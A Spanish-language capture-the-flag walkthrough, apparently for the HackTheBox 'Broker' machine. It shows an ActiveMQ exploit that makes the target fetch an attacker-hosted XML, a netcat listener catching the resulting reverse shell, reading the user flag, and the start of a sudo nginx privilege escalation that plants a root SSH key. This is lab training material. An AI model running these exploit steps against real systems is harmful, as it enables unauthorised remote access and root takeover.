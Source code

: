 ~~~bash
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.x.x:8080/poc.xml

[*] Sending packet: 000000721f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001f687474703a2f2f31302e31302e31342e31373a383038302f706f632e786d6c
~~~
Con ello se deberia ver una petición desde el servidor que se abrió
~~~bash
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.243 - - [15/Oct/2025 17:36:24] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [15/Oct/2025 17:36:24] "GET /poc.xml HTTP/1.1" 200 -
~~~
Adicionalmente configurar un escucha para recibir la reverse shell.
~~~bash
sudo nc -nlvp 4433                                                                    
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.11.243] 59998
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con esto ya se puede ver la user flag
~~~
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cd 
activemq@broker:~$ ls
user.txt
activemq@broker:~$ cat user.txt 
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Se realizó la enumeración básica, colocando el comando "sudo -l" donde es encontró con un servicio que puede ser ejecutado.
~~~bash
activemq@broker:/$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
~~~
Visto esto, existe un exploit para aprovechar este permiso, una explicación clara se puede ver en esta página (https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406), el exploit trata basicamente en crear un nuevo id_rsa mediante nginx y pasarlo al .ssh de la carpeta root, asi que replicandolo.
Primero se copia y pega el exploit en la ruta base del usurio activemq
~~~bash
activemq@broker:~$ cat exp.sh
echo "[+] Creating configuration..."
~~~
